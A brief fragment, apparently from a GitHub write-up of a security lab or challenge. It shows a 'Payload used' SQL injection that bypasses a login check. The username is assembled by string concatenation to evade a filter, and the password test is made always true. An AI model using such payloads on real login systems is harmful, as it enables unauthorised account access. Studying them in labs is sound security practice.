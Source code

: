 Payload used:

SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' is not 'b'

![image](https://github.com/user-attachments/assets/dbbb6577-4d4f-4ffd-b370-34ea9513e3cf)
